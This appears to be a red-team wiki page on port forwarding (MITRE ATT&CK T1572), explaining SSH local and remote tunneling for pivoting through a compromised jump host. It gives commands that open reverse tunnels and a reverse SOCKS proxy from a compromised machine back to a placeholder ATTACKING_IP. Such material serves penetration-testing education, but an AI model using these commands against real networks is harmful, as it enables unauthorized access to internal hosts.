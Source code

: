 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice
### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.  
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:  

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
We can,for example, on a compromised computer (jump-server) connect back to the attackbox with a reverse port forward using the following command.  
This example produce the same result as previously seen with Local-Forwarding. Any connection on ATTACKING_IP:8000 will be redirected on intra.example.com:80

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the -D switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: 
```bash
ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Socat" %}
{% endtab %}
{% endtabs %}
## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}


